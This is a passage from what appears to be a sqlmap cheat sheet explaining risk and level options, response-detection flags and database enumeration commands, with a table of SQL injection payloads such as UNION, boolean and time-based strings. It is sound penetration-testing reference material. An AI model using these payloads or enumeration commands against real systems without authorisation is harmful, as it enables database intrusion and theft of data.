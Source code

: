 ### Risk and Level Configuration
```bash
# Set testing level (1-5, focuses on multiple entry points)
sqlmap -r request.txt --level=3    # Tests cookies, user agents
sqlmap -r request.txt --level=5    # Maximum entry points

# Set risk level (1-3)
sqlmap -r request.txt --risk=1     # Safe SELECT statements only
sqlmap -r request.txt --risk=2     # Adds time-based blind tests
sqlmap -r request.txt --risk=3     # Dangerous OR queries (can affect UPDATE/DELETE)
```

### Risk Level Details
| Risk        | Description                 | Example Payloads                                      | When to Use                           |
| ----------- | --------------------------- | ----------------------------------------------------- | ------------------------------------- |
| 1 (Default) | Safe SELECT-based tests     | `' OR 1=1-- -`<br>`' AND 1=2 UNION ALL SELECT...`     | Always start here                     |
| 2           | Adds time-based blind tests | `' OR SLEEP(5)-- -`<br>`'; WAITFOR DELAY '0:0:5'-- -` | When Risk 1 finds nothing             |
| 3           | OR-based boolean tests      | `' OR 'a'='a'`                                        | **Dangerous!** Can affect all records |

### Error Parsing
```bash
# Enable DBMS error message parsing
sqlmap -r request.txt --parse-errors
```

## Response Analysis

### Response Differentiation
```bash
# Detect based on HTTP status code
sqlmap -r request.txt --code=200

# Detect based on page title changes
sqlmap -r request.txt --titles

# Detect based on specific string presence
sqlmap -r request.txt --string="Welcome back"

# Ignore HTML tags, focus on text content
sqlmap -r request.txt --text-only
```

## Advanced Enumeration

### Comprehensive Database Information
```bash
# Database version banner
sqlmap -r request.txt --banner

# Current user name
sqlmap -r request.txt --current-user

# All database names
sqlmap -r request.txt --dbs

# Current database name
sqlmap -r request.txt --current-db

# Check if current user has DBA rights
sqlmap -r request.txt --is-dba
```